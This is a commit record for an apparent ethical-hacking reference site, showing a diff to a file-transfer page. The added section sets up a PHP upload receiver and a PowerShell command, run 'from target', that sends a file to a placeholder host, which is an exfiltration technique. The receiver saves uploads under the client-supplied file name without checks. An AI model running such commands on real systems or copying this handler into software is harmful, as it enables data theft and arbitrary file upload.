

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/file_transfers.md, in a window 1280 px wide and 900 px high, scrolled down 708 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update file_transfers.md

````diff
--- a/source/file_transfers.md
+++ b/source/file_transfers.md
@@ -1,4 +1,4 @@
-# File Transfers
+# File Uploads
 
 ## Windows
 
@@ -40,3 +40,24 @@ upx -9 file.exe # compresses the file inplace
 exe2hex -x file.exe -p fild.cmd
 cat file.cmd | xclip -selection clipboard
 ```
+
+# File Donwloads
+
+## Local upload PHP
+
+```
+sudo mkdir /var/www/uploads
+sudo chown www-data /var/www/uploads
+```
+In `/var/www/html/upload.php`:
+```
+<?php
+$uploaddir = '/var/www/uploads/';
+$uploadfile = $uploaddir . $_FILES['file']['name'];
+move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
+?>
+```
+From target:
+```
+powershell (New-Object System.Net.WebClient).UploadFile('http://ipaddress/upload.php', 'filename')
+```
````
